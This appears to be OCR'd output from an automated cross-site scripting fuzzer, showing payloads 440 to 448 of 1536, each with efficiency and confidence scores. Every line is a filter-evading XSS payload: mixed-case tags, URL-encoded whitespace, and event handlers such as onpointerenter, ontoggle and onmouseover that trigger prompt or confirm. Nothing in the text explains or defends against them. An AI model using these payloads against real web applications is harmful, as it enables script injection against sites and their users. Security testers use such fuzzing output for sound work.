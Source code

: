 ------------------------------------------------------------
 Payload: <HtMl%0doNpoiNtEReNTER%0d=%0d(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 440/1536
 
------------------------------------------------------------
 Payload: <D3V%0aoNPoINteREnTEr%0a=%0a(prompt)``//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 441/1536
 
------------------------------------------------------------
 Payload: <HTml/+/onpOINteRENTEr%0d=%0d(confirm)()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 442/1536
 
------------------------------------------------------------
 Payload: <DetaILs%0aontOGGlE%0a=%0aa=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 443/1536
 
------------------------------------------------------------
 Payload: <dETAiLS/+/Ontoggle%09=%09a=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 444/1536
 
------------------------------------------------------------
 Payload: <DeTAIlS%0donpOiNTerenTeR%0d=%0dconfirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 445/1536
 
------------------------------------------------------------
 Payload: <detaIlS/+/oNpoINTeReNTeR%0a=%0aconfirm()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 446/1536
 
------------------------------------------------------------
 Payload: <a%0dONpOinTEREnTeR+=+(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 447/1536
 
------------------------------------------------------------
 Payload: <a%0dONmOUSEOvEr%0a=%0a[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 448/1536
 